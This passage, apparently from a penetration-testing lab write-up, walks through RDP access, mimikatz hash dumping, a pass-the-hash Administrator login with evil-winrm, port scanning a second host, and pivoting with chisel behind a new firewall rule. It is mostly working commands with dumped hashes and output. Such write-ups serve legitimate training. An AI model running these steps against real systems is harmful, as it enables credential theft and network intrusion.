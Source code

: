 We can also get UI access using the tool *xfreerdp*:

```
xfreerdp /v:10.200.105.150 /u:patota /p:123456 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

By executing the powershell with our user, we can upload the tool *mimikatz* which allows us to extrack hash values and escalate privileged:

```
# Obtained hashs
# User: Admin
# Hash: 37db630168e5f82aafa8461e05c6bbd1
# Pass: [Not found]

# User: Thomas
# Hash: 02d90eda8f6b6b06c32d5f207831101f
# Pass: i<3ruby
```

Even without founding the password of the Administrator, it is still possible to login with this account using *evil-winrm* and performing a pass-the-hash attack:

```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.105.150
```

## Enumerating personal computer 
The GitStack server hosted on 10.200.105.150 is on the same network as the personal computer (10.200.105.100). With our access, it is possible to upload files on 10.200.105.150 that allows the connection to the PC. To gather more informatation about this system, we upload, using evil-win a powershell script that performs a network scanner. With this scanner we aim to find what ports a open on this system:

```
# Upload the port scanner
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.105.150 -s /home/bruno/Downloads/tools/Enumeration/Windows/   

# Running the port scanner on the top 50 ports
Invoke-Portscan -Hosts 10.200.105.100 -TopPorts 1000
```

This command showed us that the PC has the following ports openned:

```
Hostname      : 10.200.105.100
alive         : True
openPorts     : {80, 3389}
```

With the tool *chisel*, we can pivot the GitStack server to get access to the PC. We execute the following commands to pivoting:

```
# Open a firewall port on the GitStack system
netsh advfirewall firewall add rule name="Chisel-Pat2" dir=in action=allow protocol=tcp localport=56001

# on the machine that will be used as pivot, we ran start chisel as server:
./chisel_1.9.1_windows_amd64.exe server -p 56001 --socks5

# on our attacking machine, we start a chisel client
./chisel_1.9.1_linux_amd64 client 10.200.105.150:56001 6007:socks
```
